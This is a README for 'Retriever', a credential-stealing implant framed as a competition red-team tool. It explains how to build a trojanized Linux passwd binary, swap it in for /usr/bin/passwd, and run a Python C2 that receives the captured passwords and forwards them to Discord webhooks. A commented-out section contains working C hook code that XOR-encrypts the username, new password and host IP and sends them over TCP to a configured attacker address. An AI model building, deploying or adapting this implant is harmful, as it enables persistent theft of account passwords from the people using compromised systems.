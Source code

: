 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8+ <br />Debian - 11+ <br />Arch - ???  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

## Build Instructions
Build binaries on the same operating system that it will be deployed on to reduce risk of issues with binary running. It is highly recommended you match the version as closely as possible.
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc
#### Distro Examples
##### Ubuntu
	apt install -y git make autoconf autopoint libtool xsltproc
##### RHEL Based
	yum install -y git make autoconf gettext-devel libtool libxslt
##### Arch
	pacman -Syu --noconfirm git make autoconf gettext libtool libxslt
##### Alpine
	apk add git make autoconf gettext-dev libtool libxslt
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions :
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>

## Building with Docker
	docker build . -f ubuntu2204.Dockerfile -o ./out --no-cache --rm --build-arg IP="192.168.1.1" --build-arg PORT="1234" --build-arg INTERFACE="ens2" --build-arg XOR_KEY="bruh"arch:latest 

## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv requests
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py

<!---
## Hooking the passwd.c File Manually

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. Make sure to replace the text "INT_HERE" in the 17th line with the actual interface being used by the computer.

	char* XORCipher(char* data, char* key, int dataLen, int keyLen) {
		char* output = (char*)malloc(sizeof(char) * dataLen);

		for (int i = 0; i < dataLen; ++i) {
			output[i] = data[i] ^ key[i % keyLen];
		}

		return output;
	}

	int writetofile (char *password){

		/* Get uid */
		uid_t uid = geteuid();
		struct passwd * pw = getpwuid(uid);
				
		/* Get IP Address */
		int fd;
		struct ifreq ifr;
		fd = socket(AF_INET, SOCK_DGRAM, 0);
			
		/* I want to get an IPv4 IP address */
		ifr.ifr_addr.sa_family = AF_INET;

		/* I want IP address attached to set interface - CHANGE INTERFACE*/
		strncpy(ifr.ifr_name, ens33, IFNAMSIZ-1);
		ioctl(fd, SIOCGIFADDR, &ifr);
		close(fd);
		
		/* display result */
		char buffer[256];
		char * ip;
		ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
		int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);
		
		/* Make Socket */
		int sock = 0, valread;
		struct sockaddr_in serv_addr;

		/* Sock creation Pt 2*/
		if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
			return -1;
		}

		/* Socket Options */
		serv_addr.sin_family = AF_INET;
		serv_addr.sin_port = htons(PORT);
			
		/* Timeout settings */
		struct timeval timeout;
		timeout.tv_sec = 3;
		timeout.tv_usec = 0;
		
		if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
			return -1;
		}
		if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
			// pass
		}

		/* set IP and set buffer */
		if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
			return -1;
		}
		if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
			return -1;
		}

		/* Encrypt Message - CHANGE KEY*/
		char* key  = "KEY_HERE";
		int key_length = strlen(key);
		int mes_length = strlen(buffer);
		char* xor_message = XORCipher(buffer, key, mes_length, key_length);

		/* Send Message */
		send(sock , xor_message , mes_length, 0);	
		return 0;

	}
--->